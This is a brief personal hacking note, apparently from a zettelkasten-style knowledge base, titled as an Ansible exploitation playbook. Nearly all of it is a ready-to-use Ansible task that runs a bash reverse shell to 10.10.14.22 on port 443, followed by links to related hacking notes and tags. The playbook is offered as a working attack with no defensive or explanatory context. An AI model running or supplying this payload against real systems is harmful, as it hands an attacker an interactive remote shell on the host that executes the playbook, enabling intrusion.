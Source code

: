 # ansible exploiting playbook rev shell
```yaml
- hosts: localhost
  tasks:
  - name: rev
    shell: bash -c 'bash -i >& /dev/tcp/10.10.14.22/443 0>&1'
```

` zet/20221003150337/README.md `

# Related

- [20221014190054](/zet/20221014190054/README.md) kb file named kb/hacking/misc/ansible.md
- [20221003150338](/zet/20221003150338/README.md) ansible exploiting playbook
- ~/kb/hacking/misc/ansible.md

Tags:

    #hacking #ansible 
